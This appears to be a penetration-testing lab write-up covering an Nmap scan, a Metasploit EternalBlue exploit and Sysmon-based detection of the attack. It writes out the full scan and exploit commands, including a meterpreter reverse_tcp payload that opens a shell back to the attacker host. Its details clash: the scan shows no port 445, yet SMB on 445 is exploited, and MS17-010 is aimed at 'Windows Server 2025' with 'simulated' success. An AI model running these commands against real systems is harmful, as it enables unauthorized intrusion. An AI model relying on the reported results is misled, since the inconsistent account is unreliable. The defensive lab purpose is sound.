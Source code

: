 🔎 Network Reconnaissance – Nmap Scan
🧠 Objective
Perform a network scan to identify live hosts, open ports, and potential vulnerabilities on the target server in an isolated lab environment.

🛠️ Tools Used
Nmap v7.94
Kali Linux 2024.2
🖥️ Target Information
IP: 192.168.1.2 (Windows Server 2025)
Subnet: 192.168.1.0/24
🔍 Scan Commands & Results
1. Basic Host Discovery
nmap -sn 192.168.1.0/24
Output:

192.168.1.1 -> Netgear Router

192.168.1.2 -> Windows Server

192.168.1.10 -> Kali Linux

2. Port Scan
bash
Copy
Edit
nmap -sS -Pn -T4 -p- 192.168.1.2
Open Ports:

22 – SSH

80 – HTTP

3389 – RDP

📌 Notes
Windows Defender was active during scanning.

No IDS in place at this stage.

✅ Outcome
Initial footprinting complete. Discovered open ports for potential exploitation in the next phase.

💥 Exploitation – Metasploit CVE
🧠 Objective
Exploit an identified vulnerability on the Windows Server using Metasploit in a safe, controlled environment.

🛠️ Tools Used
Metasploit Framework

Kali Linux 2024.2

🎯 Target
OS: Windows Server 2025

IP: 192.168.1.2

Port: 445 (SMB vulnerability - simulated or real CVE)

🧪 Exploit Example
bash
Copy
Edit
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 192.168.1.2
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.10
run
Simulated successful shell access achieved.

🔒 Mitigation Notes
Ensure server is patched against known SMB vulnerabilities.

Disable unnecessary services (e.g., SMBv1).

✅ Outcome
Exploit successful in lab; documented post-exploitation actions for analysis.

🔍 Post-Exploitation – Sysmon Analysis
🧠 Objective
Analyze system activity using Sysmon logs after a successful exploitation attempt.

🛠️ Tools Used
Sysmon (Windows Server)

Event Viewer & Windows Event Logging

Kali Linux (for attack)

🧾 Key Observations
Event ID 1: Process Creation (cmd.exe, powershell.exe)

Event ID 3: Network Connection established from attacker IP (192.168.1.10)

Event ID 11: File creation in C:\Users\Public

📊 Detection Indicators
Indicator	Value
Source IP	192.168.1.10
Suspicious Process	powershell.exe
Malicious Payload	Meterpreter reverse shell
🛡️ Defensive Recommendations
Create Sysmon alerts for suspicious process chains.

Enable logging for PowerShell and Remote Desktop usage.

Integrate with SIEM for real-time alerting.

✅ Outcome
Sysmon successfully captured key post-exploitation events. Confirmed value in forensic detection.

🧾 Risk Assessment Report
